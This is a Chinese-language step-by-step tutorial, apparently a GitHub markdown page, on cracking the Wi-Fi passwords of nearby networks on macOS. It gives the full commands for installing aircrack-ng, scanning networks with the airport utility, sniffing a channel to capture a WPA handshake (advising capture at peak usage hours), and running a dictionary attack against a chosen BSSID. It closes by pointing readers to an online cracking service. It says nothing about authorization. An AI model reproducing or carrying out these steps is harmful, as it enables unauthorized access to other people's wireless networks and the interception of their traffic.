




# MacOS Wi-Fi 密码破解

## 第一步：安装aircrack-ng

```bash
brew install aircrack-ng
```

## 第二步：获取本机无线网卡

通过ifconfig命令获取当前的网卡的名字， 我这边网卡名字为en0：



## 第三步：获取所有的无线网络

使用mac系统自带的airport工具， 查看当前的无线网络， 以及它们的相关信息

```bash
sudo /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport -s
```

以下为我附近所有的wifi， 注意看表格， SSID， BSSID， CHANNEL，这些关键词都会在后面提到：


## 第四步：开始抓包 ， 收集监听周围无线网络的数据

参数en0是我电脑的默认网卡， 数字6是网卡需要监听的网络频道:

```bash
sudo /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport en0 sniff 6
```

开始监听以后， wifi的图标会发生改变


监听久一点， 然后使用ctrl+c停止监听， 系统会把监听到的数据保存到本地，数据保存到/tmp/airportSniffdaMCjH.cap文件中：



在监听的过程中如果有用户登陆这个wifi， 那么包就会被我们截获， 如果用户一直没有登陆到这个wifi， 我们就还要继续等待监听， 尽量在手机或者手提电脑所用高峰期开启捕获， 这样捕获握手（handshake）的几率比较高

## 第五步：查看cap文件中的数据是否被抓取到 handshake

```bash
sudo aircrack-ng   /tmp/airportSniff8g0Oex.cap
或者直接使用命令：
sudo aircrack-ng   /tmp/airportSniff8g0Oex.cap | grep "1 handshake"
```

如果要查询的路由列表的Encryption值为WPA(1 handshake) ，说明抓取成功， 否者跳到第四步，要重新抓取：



## 第六步：输入命令air-crack开始破解

-w 后面的dict.txt是字典文件，只要字典够大， 密码破出来应该指日可待， 字典可以自己去做，或者网上下载
-b 后面的参数bc:46:99:df:6c:72指的是网卡的BSSID， 最后面的一个文件路径是上一步监听到的数据

```bash
sudo aircrack-ng -w dict.txt -b bc:46:99:df:6c:72 /tmp/airportSniffdaMCjH.cap
```

破解成功以后，命令行会显示KEY FOUND ：



如果觉的自己弄个字典爆破很麻烦， 有些第三方的网站提供免费爆破，或者收费的爆破，https://gpuhash.me/
